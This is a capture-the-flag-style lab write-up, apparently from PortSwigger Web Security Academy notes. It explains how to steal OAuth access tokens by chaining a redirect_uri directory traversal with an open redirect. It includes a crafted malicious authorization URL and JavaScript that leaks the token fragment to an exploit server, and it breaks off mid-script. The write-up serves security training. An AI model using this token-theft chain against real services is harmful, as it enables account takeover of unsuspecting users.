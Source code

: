 
### Quick Solution
As with one of the previous labs we have to mess around with the ``redirect_uri`` parameter. In this case the OAuth service has some kind of protection against ``redirect_uri`` tampering. Anyway the client application has two vulnerabilities that can be leveraged to circumevent this protection:
- Directory traversal (using ``/../``)
- Open redirection (in every post page)


### Solution
1. While proxying traffic through Burp, click "My account" and complete the OAuth login process. Afterwards, you will be redirected back to the blog website.
2. Study the resulting requests and responses. Notice that the blog website makes an API call to the userinfo endpoint at ``/me`` and then uses the data it fetches to log the user in. Send the ``GET /me`` request to Burp Repeater.
3. Log out of your account and log back in again. From the proxy history, find the most recent`` GET /auth?client_id=[...]`` request and send it to Repeater.
4. In Repeater, experiment with the ``GET /auth?client_id=[...]`` request. Observe that you cannot supply an external domain as ``redirect_uri`` because it's being validated against a whitelist. However, you can append additional characters to the default value without encountering an error, including the ``/../`` directory traversal sequence.
5. Log out of your account on the blog website and turn on proxy interception in Burp.
6. In your browser, log in again and go to the intercepted ``GET /auth?client_id=[...]`` request in Burp Proxy.
7. Confirm that the ``redirect_uri`` parameter is in fact vulnerable to directory traversal by changing it to:
```
https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post?postId=1
```
Forward any remaining requests and observe that you are eventually redirected to the first blog post. In your browser, notice that your access token is included in the URL as a fragment.
8. With the help of Burp, audit the other pages on the blog website. Identify the "Next post" option at the bottom of each blog post, which works by redirecting users to the path specified in a query parameter. Send the corresponding ``GET /post/next?path=[...]`` request to Repeater.
9. In Repeater, experiment with the ``path`` parameter. Notice that this is an open redirect. You can even supply an absolute URL to elicit a redirect to a completely different domain, for example, your exploit server.
10. Craft a malicious URL that combines these vulnerabilities. You need a URL that will initiate an OAuth flow with the ``redirect_uri`` pointing to the open redirect, which subsequently forwards the victim to your exploit server:
```
https://YOUR-LAB-OAUTH-SERVER.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email
```
11. Test that this URL works correctly by visiting it in your browser. You should be redirected to the exploit server's "Hello, world!" page, along with the access token in a URL fragment.
12. On the exploit server, create a suitable script at ``/exploit`` that will extract the fragment and output it somewhere. For example, the following script will leak it via the access log by redirecting users to the exploit server for a second time, with the access token as a query parameter instead:
```
<script>
window.location = '/?'+document.location.hash.substr(1)
</script>
```
13. To test that everything is working correctly, store this exploit and visit your malicious URL again in your browser. Then, go to the exploit server access log. There should be a request for ``GET /?access_token=[...]``.
14. You now need to create an exploit that first forces the victim to visit your malicious URL and then executes the script you just tested to steal their access token. For example:
```
<script>
    if (!document.location.hash) {
```